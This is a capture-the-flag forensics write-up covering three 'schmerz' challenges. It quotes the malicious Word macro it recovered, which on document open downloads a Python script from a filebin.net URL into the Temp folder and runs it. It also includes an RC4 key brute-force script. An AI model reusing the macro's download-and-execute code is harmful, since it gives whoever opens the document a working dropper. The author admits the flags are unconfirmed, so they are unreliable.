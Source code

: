 # schmerz-1

**Flag:** `flag{fA3bDt}`

Extracting the filesystem from the `.ad1` file and going into the `C:\Users\challenge\Downloads` directory, we find a `.dotm` file. Running `olevba` on it, we get this

```vb
.
.
.
Sub RegistryEntry()
    Dim keyName As String
    Dim data As String
    Dim path As String
    Dim myWS As Object
    Dim stype As String
    Set myWS = VBA.CreateObject("WScript.Shell")

    path = "HKEY_CURRENT_USER\Software\Uninstall\"
    keyName = "Application"
    keyValue = "fA3bDt"
    stype = "REG_SZ"
    myWS.RegWrite path & keyName, keyValue, stype
End Sub

Sub DownloadAndOpenFile()
.
.
.
```

The value of the registry entry stored by the malicious macro seems to be `fA3bDt`. I can't confirm if this is correct as I couldn't find a writeup, but it most likely should be.

# schmerz-2

**Flag:** `flag{python.exe "C:\Users\challenge\AppData\Local\Temp\msserver.py"}`

The same macro also shows this:

```vb
Sub Document_Open()
    DownloadAndOpenFile
    RegistryEntry
End Sub
.
.
.
Sub DownloadAndOpenFile()
    Dim url As String
    Dim destinationPath As String
    Dim shell As Object
    Dim pythonPath As String
    Dim command As String
    pythonPath = "python.exe"
    url = "https://filebin.net/g5lap7a613mo3x3o/client.py"
    destinationPath = Environ("TEMP") & "\msserver.py"
    With CreateObject("MSXML2.ServerXMLHTTP")
        .Open "GET", url, False
        .send
        If .Status = 200 Then
            Dim stream As Object
            Set stream = CreateObject("ADODB.Stream")
            stream.Open
            stream.Type = 1
            stream.Write .responseBody
            stream.SaveToFile destinationPath, 2
            stream.Close
        End If
    End With
    command = pythonPath & " " & Chr(34) & destinationPath & Chr(34)
    Set shell = CreateObject("WScript.Shell")
    shell.Exec command
End Sub
```

So we can see the first command that seems to run upon the document opening is


```vb
vbpythonPath & " " & Chr(34) & destinationPath & Chr(34)
```

and when you replace all variables with their values,

```py
python.exe "C:\Users\challenge\AppData\Local\Temp\msserver.py}"
```

As with the previous one, I have no clue if this is the correct flag since I couldn't find a writeup, but it should be.

# schmerz-3

**Flag** `flag{fA3bDtO6QL}`

We find a file `msserver.py` on the filesystem in `C:\Users\challenge\AppData\Local\Temp\`. This was hinted at in the macro we found in the docm file.

Looking at the code, we see its some kind of encryption scheme for a server that XOR's it with its index and then converts it to base64.

We also have a pcap file `chall.pcap`. With Wireshark we can scan the packets and see base64 data being transferred. We extract the base64 data and reverse XOR it, leading to commands for slowly building a file `a.py` by echo'ing base64 strings into a file `file.txt`.

Decoding the base64 strings in `a.py`, we find another encryption scheme, this time the one the attacker used to encrypt the files. I pasted the code into ChatGPT and it told me it looked like an RC4 encryption schema.

The key in this case is the registry value set earlier (`fA3bDt`), along with 4 random characters. Since we know its a block cipher, we use 4 bytes of the ZIP header that the program encrypted to brute-force the cipher and find the final 4 characters of the key.

```py
from itertools import product
from Crypto.Cipher import ARC4

plaintext = b'PK\x03\x04'
expected_cipher = b'\xe5\x74\xca\x32'
known_key_part = 'fA3bDt'

def rc4_encrypt(key, data):
    cipher = ARC4.new(key.encode())
    return cipher.encrypt(data)

charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
possible_keys = (''.join(p) for p in product(charset, repeat=4))

for part in possible_keys:
    full_key = known_key_part + part
    encrypted = rc4_encrypt(full_key, plaintext)
    print(part)
    if encrypted == expected_cipher:
        print(f'Found key: {full_key}')
        exit(0)
```

With this, we get the last 4 characters as `06QL`, and thus the full key.
